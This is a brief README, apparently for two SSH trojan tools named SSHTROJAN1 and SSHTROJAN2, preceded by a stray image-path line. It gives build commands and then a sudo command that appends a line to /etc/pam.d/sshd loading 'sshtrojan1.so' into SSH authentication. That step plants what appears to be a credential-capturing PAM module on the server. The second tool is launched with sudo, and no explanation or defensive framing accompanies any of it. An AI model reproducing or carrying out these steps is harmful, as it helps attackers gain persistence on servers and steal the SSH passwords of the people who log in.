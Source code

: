 SSHTROJAN1:

`sudo apt install libpam0g-dev`

`make`

`sudo printf "auth optional pam_unix.so nullok_secure audit\nauth optional sshtrojan1.so" >>  /etc/pam.d/sshd`

/etc/pam.conf -> UsePam = yes

SSHTROJAN2:
`sudo ./sshtrojan2`
